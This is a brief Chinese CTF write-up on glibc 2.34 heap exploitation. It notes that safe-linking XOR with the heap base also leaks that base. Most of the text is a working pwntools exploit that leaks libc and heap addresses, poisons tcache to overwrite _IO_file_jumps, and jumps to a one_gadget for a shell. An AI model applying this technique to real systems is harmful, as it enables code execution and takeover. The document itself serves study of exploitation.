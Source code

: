 > malloc

引入了一个异或加密,现在要寻找一个地址,需要使用真实地址与`heap_base`地址进行异或,得到指针,给利用带来了难度,但同时也带来了新的泄露姿势

> https://www.anquanke.com/post/id/236186

___

exp:

```python
#Ubuntu2.34
from pwn import *
context.log_level = 'debug'
io = gdb.debug('./pwn')
# io = remote('node4.anna.nssctf.cn',28254)
elf = ELF('./pwn')
lib = ELF('/home/bamuwe/duck/libc.so.6')
def add():
    io.sendlineafter(b'Choice: ',b'1')
    
def free(idx):
    io.sendlineafter(b'Choice: ',b'2')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def show(idx):
    io.sendlineafter(b'Choice: ',b'3')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: ',b'4')
    io.sendlineafter(b'Idx: \n',str(int(idx)))
    io.sendlineafter(b'Size: \n',str(int(0x100)))
    io.send(content)

for i in range(9):
    add()           #0-7
for i in range(9):
    free(i)         #0-7
                    
#leak_libc
show(7)
main_arena_addr = u64(io.recv(6).ljust(8,b'\x00'))-96
libc_offset = main_arena_addr-lib.sym['main_arena']
one_addr = 0xda864+libc_offset			#one_gadget
IO_file_jumps = libc_offset + lib.sym['_IO_file_jumps']
success(f'main_arena_addr=>{hex(main_arena_addr)}')
success(f'one_addr=>{hex(one_addr)}')
success(f'IO_file_jumps=>{hex(IO_file_jumps)}')
#leak_heap_base
show(0)
heap_base_addr = u64(io.recv(5).ljust(8,b'\x00'))
success(f'heap_base_addr=>{hex(heap_base_addr)}')

for i in range(5):
    add()           #8-13
edit(1,p64(heap_base_addr^IO_file_jumps))       #对chunk0修改
add()               #14
add()               #15
edit(15,p64(0)*3+p64(one_addr))
io.interactive()
```



